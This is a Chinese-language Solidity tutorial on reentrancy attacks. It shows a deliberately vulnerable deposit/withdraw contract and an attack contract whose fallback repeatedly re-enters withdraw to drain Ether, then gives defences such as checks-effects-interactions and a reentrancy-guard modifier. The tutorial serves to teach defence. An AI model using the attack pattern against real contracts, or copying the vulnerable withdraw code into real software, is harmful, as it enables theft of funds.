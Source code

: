 # 重入攻击

## 什么是重入攻击？

重入攻击是一种针对智能合约的安全漏洞。攻击者通过在合约执行过程中**多次调用**另一个合约，来利用合约状态**未正确更新**的漏洞，从而实现非法访问和控制合约的目的。

攻击者利用了智能合约在**执行外部调用**时，**不会暂停**当前合约的执行，而是**直接跳转**到外部合约执行指定函数，因此在外部合约执行结束前，攻击者可以**再次进入**原始合约，从而实现重复攻击。

## 实现

我们给出一个最简单的例子，就拿合约存储`Eth`来讲。

以下例子有两个函数。

一个是用于往合约里存储`Eth`，另一个就是取出`Eth`，就只是做一个简单的余额判断再用`call`函数来转账。

```solidity
contract Demo {
    mapping (address => uint) public balances;

    function deposit() public payable {
        balances[msg.sender] += msg.value;
    }

    function withdraw(uint _amount) public {
        require(balances[msg.sender] >= _amount);
        (bool sent, ) = msg.sender.call{value: _amount}("");
        require(sent, "Failed to send Ether");
        balances[msg.sender] -= _amount;
    }
}
```

接下来我们看看攻击合约，最重要的就是`fallback()`的处理。

1. 往`Demo`中存`Eth`并调用`withdraw`取出刚存入的`Eth`

2. 触发`withdraw`后，`Demo`中前置检查没有问题，走到`msg.sender.call`时，转账并且触发`Attack`中的`fallback()`

3. 可以看到`fallback`中有一个循环，里面多次调用`demo.withdraw`。因为在使用`call()`转账前，`withdraw`函数都没有对余额进行任何的修改，导致前置检查不出任何问题。

4. 所以可以多次调用`withdraw`直到`Demo`中的`Eth`耗尽

```solidity
contract Attack {
    uint256 public count;

    fallback() external payable {
        if (count < 10) {
            count++;
            demo.withdraw(msg.value);
        }
    }

    function attack() public payable {
        demo.deposit{value: msg.value}();
        demo.withdraw(msg.value);
    }
}
```

## 如何防范？

1. 在**调用外部合约之前**确保**所有状态更改**都已发生，即在调用外部代码之前更新余额或内部代码
2. 使用防止重入的**函数修饰符**。
3. 使用**检查-效果-交互**模式也是一种可靠的防护方法

就`Demo`而已，可以把`balances[msg.sender] -= _amount;`，放在转账语句前

也可以使用防止重入的函数修饰符

```solidity
contract ReEntrancyGuard {
    bool internal locked;

    modifier noReentrant() {
        require(!locked, "No re-entrancy");
        locked = true;
        _;
        locked = false;
  
    }
}


contract Protect is ReEntrancyGuard{

    mapping (address => uint) public balances;

    function deposit() public payable {
        balances[msg.sender] += msg.value;
    }

    function withdraw(uint _amount) public noReentrant {
        require(balances[msg.sender] >= _amount);
        (bool sent, ) = msg.sender.call{value: _amount}("");
        require(sent, "Failed to send Ether");
        balances[msg.sender] -= _amount;
    }

}
```
